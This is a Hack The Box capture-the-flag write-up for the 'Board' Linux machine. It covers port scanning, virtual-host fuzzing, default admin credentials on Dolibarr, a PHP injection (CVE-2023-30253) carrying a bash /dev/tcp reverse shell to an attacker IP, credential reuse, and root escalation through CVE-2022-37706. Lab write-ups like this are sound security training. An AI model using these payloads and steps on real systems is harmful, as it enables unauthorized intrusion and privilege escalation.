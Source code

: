 
![Logo](https://github.com/user-attachments/assets/997ea495-b7d7-49e5-83fe-5747fa781fbe)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [cY83rR0H1t](https://app.hackthebox.com/users/116842)         | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---









- I start with a scan of the open ports,
    
    ```bash
    nmap -p- --open --min-rate 5000 -Pn -sS 10.10.11.11 -oG scan
    ```
    
    ![image](https://github.com/user-attachments/assets/847f9aac-35ba-483a-a1ff-a1f17d892d4d)

    
- Scanning open ports.
    
    ```bash
    nmap -p22,80 -sCV 10.10.11.11 -oN ports
    ```
    
    ![image 1](https://github.com/user-attachments/assets/4af6c432-5608-4d56-b5ca-ce6d1d162183)

    
- I look at what technologies they are using on the website. I found a path with this acknowledgement and added it to the `/etc/hosts` file
    
    ```bash
    whatweb http://10.10.11.11
    ```
    
    ![image 2](https://github.com/user-attachments/assets/3f40d9c0-17f0-4c0b-b3d6-7d4999b0250b)

    
    ![image 3](https://github.com/user-attachments/assets/a1a16ad8-6a53-4258-806e-8b7063887c59)

    

- After searching for a while through the site and the routes discovered with gobuster I can't find anything relevant. When searching for virtual host I find one, `crm`
    
    ```bash
    wfuzz -c -t 200 --hh=15949 -w /usr/share/amass/wordlist/subdomains-top1mil-110000.txt -H "Host: FUZZ.board.htb" http://board.htb
    ```
    
    ![image 4](https://github.com/user-attachments/assets/136c7374-9ecf-4c64-9931-df865cd0cff1)

    

- I add it to the /etc/hosts file and enter the site
    
    ![image 5](https://github.com/user-attachments/assets/1022eef5-74b8-4ed5-a082-df4ef70f3972)

    

- I search for the default credentials `admin`:`admin` and get access.
    
    ![image 6](https://github.com/user-attachments/assets/f84e9d4c-a5e3-448c-9659-f6ac6f6143dc)

    
- When looking for vulnerabilities of this version I find the CVE-2023-30253 that consists in creating a website and a page to which we can add php code. This has a validation that does not allow us to introduce the string “php” but when we put it in the following way if it allows us.
    
    [Security Advisory: Dolibarr 17.0.0 PHP Code Injection (CVE-2023-30253) - Swascan](https://www.swascan.com/security-advisory-dolibarr-17-0-0/)
    
- We add a piece of code to create a reverse shell and we enter to see the page that we have just created to execute our code.
    
    ```bash
    <?pHp
    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.205/4242 0>&1'");
    ?>
    ```
    
    ![image 7](https://github.com/user-attachments/assets/a198ee8c-4795-42ba-8bdb-cd93643ee12d)

    
- I start listening on port 4242 and I get a shell
    
    ```bash
    nc -nlvp 4242
    ```
    
    ![image 8](https://github.com/user-attachments/assets/61e1c3de-c498-49e3-b457-dcfa01c6a673)

    
- I search the Dolibarr configuration file and find some mysql credentials.
    
    ![image 9](https://github.com/user-attachments/assets/bba71c30-76de-44c2-8d2e-0b2d864c6c8f)

    
- I try to reuse the password found with the user `larissa` that I find by looking at the `/etc/passwd` file.
    
    ![image 10](https://github.com/user-attachments/assets/9e28d658-97cb-459a-9960-bc46f729bf71)

    
- Searching for suid permissions I find some unusual files and running leanpeas confirms my suspicions. The enlightenment files with versions prior to 0.25.4 have a vulnerability listed in `CVE-2022-37706`.
    
    ```bash
    find / -perm -4000 2>/dev/null
    ```
    
    ![image 11](https://github.com/user-attachments/assets/7424bc86-2196-487d-8ca9-310a94dd7e42)

    
    ![image 12](https://github.com/user-attachments/assets/7fd9cefb-a033-4ce7-abd2-67ce911e2cb4)

    
- I find a POC of this CVE and by executing it I manage to escalate my privileges and become root
    
    [CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)
    
    ![image 13](https://github.com/user-attachments/assets/5b67c560-7461-48e8-a39c-ce984ba199be)

